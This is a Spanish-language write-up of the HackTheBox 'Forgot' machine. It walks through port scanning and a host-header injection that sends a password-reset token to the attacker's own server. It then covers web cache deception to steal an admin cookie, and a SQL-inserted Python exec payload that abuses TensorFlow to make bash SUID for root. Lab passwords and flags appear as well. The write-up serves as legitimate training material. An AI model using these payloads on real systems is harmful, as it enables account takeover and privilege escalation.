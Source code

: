 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez obtenido el acceso a la web, vemos que en el apartado **/escalate** podemos enviarle un link para que el admin haga click en él.También si vemos el código fuente en el apartado de escalate podemos ver una ruta **/admin_tickets** si intentamos ingresar vemos que nos dice acceso denegado. Para obtener acceso a esa ruta lo que podemos hacer es lo siguiente:


![Burpsuite]({{ 'assets/img/commons/Forgot/inexistent.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez hemos hecho esto, colocamos en la url lo mismo que le mandamos al admin sólo que hasta **/js** porque o sino Burpsuite no nos intercepta la petición, la mandamos al repeater y allí le colocamos **/test.js** 

![Burpsuite]({{ 'assets/img/commons/Forgot/cambiamos.png' | relative_url }}){: .center-image }
_Petición por Burp_


Veremos que nos dice "404 not found", esto es porque ahora simplemente lo hay que hacer es enviarle otra vez a admin el link, pero esta vez, ponle otra **s** al final del "/test/js", quedaría tal que así "/test.jss" y esperas un poco a que admin le dé click a ese link. Una vez hecho esto, simplemente en la petición anterior, le agregas una **s**

![Burpsuite]({{ 'assets/img/commons/Forgot/cookie.png' | relative_url }}){: .center-image }
_Petición por Burp_

Listo, ya hemos hecho un "cache deception attack" y capturado la cookie de admin en el lado de la respuesta, ahora sólo resta acceder a "/admin_tickets". Simplemente intercepta con Burpsuite y cambias la cookie de session de tu usuario actual por la de admin. y veremos las credenciales del usuario por ssh

![Burpsuite]({{ 'assets/img/commons/Forgot/credenciales.png' | relative_url }}){: .center-image }
_Credenciales_

Nos conectamos por ssh

```
-bash-5.0$ whoami
diego
-bash-5.0$ cat user.txt 
4929615d53c0dcd5c4e69e18d1665e38
-bash-5.0$
```
Podemos ver un script "bot.py" y que se conecta a la base de datos

```python
-bash-5.0$ cat bot.py 
   # Fetch Links
  conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
  cursor = conn.cursor()
  cursor.execute('select * from forgot')
  r = cursor.fetchall() 
```

Si hacemos sudo -l podemos ver que tenemos un script que podemos ejecutar de manera privilegiada, si lo vemos nos muestra lo siguiente:

```python
 # Grab links
 conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
 cursor = conn.cursor()
 cursor.execute('select reason from escalate')
 r = [i[0] for i in cursor.fetchall()]
 conn.close()
 data=[]
 for i in r:
         data.append(i)
 Xnew = getVec(data)
```

También podemos una librería **tensorflow** y si buscamos encontramos cómo vulnerarlo para [este](https://github.com/advisories/GHSA-75c9-jrh4-79mc)

```python
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass
```

Lo que hace es verificar patrones maliciosos en la base de datos. Si cargamos esto, podemos inyectar código para que se ejecute. Nos conectamos a la base de datos y ejecutamos lo siguiente:

```
mysql> insert into escalate values ("1","1","1",'test=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');

```

Ahora hacemos **bash -p y obtenemos root**

```
-bash-5.0$ bash -p
bash-5.0# cat /root/root.txt 
d41b9cbb909802752553be9dd7c82720
bash-5.0#
```

